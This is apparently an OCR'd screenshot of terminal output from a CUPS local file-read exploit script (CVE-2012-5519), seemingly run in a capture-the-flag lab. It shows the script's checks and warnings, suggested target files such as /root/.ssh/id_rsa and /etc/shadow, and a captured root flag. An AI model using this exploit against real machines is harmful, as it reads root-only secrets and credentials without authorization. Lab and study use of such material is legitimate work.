 ```bash
[+] user part of lpadmin group.
[i] checking for curl command...
[+] curl binary found in path.
[+] all checks passed.

[!] warning!: this script will set the group ownership of
[!] viewed files to user 'lp'.
[!] files will be created as root and with group ownership of
[!] user 'lp' if a nonexistant file is submitted.
[!] changes will be made to /etc/cups/cups.conf file as part of the
[!] exploit. it may be wise to backup this file or copy its contents
[!] before running the script any further if this is a production
[!] environment and/or seek permissions beforehand.
[!] the nature of this exploit is messy even if you know what you're looking for.

[i] usage:
	input must be an absolute path to an existing file.
	eg.
	1. /root/.ssh/id_rsa
	2. /root/.bash_history
	3. /etc/shadow
	4. /etc/sudoers ... etc.
[i] cups-root-file-read.sh commands:
	type 'info' for exploit details.
	type 'help' for this dialog text.
	type 'quit' to exit the script.
[i] for more information on the limitations
[i] of the script and exploit, please visit:
[i] https://github.com/0zvxr/CVE-2012-5519/blob/main/README.md
/root/root.txt
[+] contents of /root/root.txt:
35b2593821d0d48ae2fd3431d3309625
```

